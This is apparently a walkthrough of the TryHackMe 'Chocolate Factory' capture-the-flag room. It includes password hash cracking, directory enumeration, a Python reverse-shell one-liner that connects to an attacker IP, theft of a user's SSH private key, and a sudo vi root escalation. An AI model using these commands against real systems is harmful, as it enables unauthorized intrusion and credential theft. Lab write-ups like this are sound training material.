# Chocolate Factory CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Chocolate Factory** CTF challenge on [TryHackMe](https://tryhackme.com/room/chocolatefactory). 
---

after scanning we know about a lot of open ports



we can login to ftp as anonymous and we can find `gum_room.jpg`



by using `stegseek` we found hidden file containing base64 ecoded message, it looks like `/etc/shadow` file



we can use hashcat to crack the password:

```
hashcat -a 0 -m 1800 hs.lst /usr/share/wordlists/rockyou.txt
```



by using gobuster i found home.php

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP -x html,php
```



on home.php we can execute commands, we can simply use this code to get reverse shell as www-data 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```



by using ls -la we see interesting file key_rev_key which is ELF executable

by using strings command we found some type of key 



we can also cd into /home/charlie and copy ssh private key



we can use it to login as charlie without a passphrase, and grab user flag



by using linpeas we know about sudo -l output 



by checking the GTFObins we know we can use this one-liner to get root shell



```
sudo vi -c ':!/bin/sh' /dev/null
```

we are now root but we need to execute some python script



after running python script we found root flag



# MACHINE PWNED

